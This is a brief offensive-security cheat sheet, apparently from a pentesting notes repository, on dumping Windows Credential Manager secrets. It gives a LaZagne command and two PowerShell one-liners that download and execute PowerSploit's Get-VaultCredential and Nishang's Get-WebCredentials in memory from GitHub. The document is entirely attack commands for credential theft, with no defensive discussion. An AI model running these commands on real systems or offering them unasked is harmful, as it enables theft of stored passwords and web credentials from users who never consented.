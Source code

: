 # Credentials Manager

### 1) LaZagne

    LaZagne.exe windows

### 2) Get-VaultCredential (PowerSploit)

    iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-VaultCredential.ps1"); Get-VaultCredential

### 3) Get-WebCredentials (Nishang)

    powershell iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1"); Get-WebCredentials


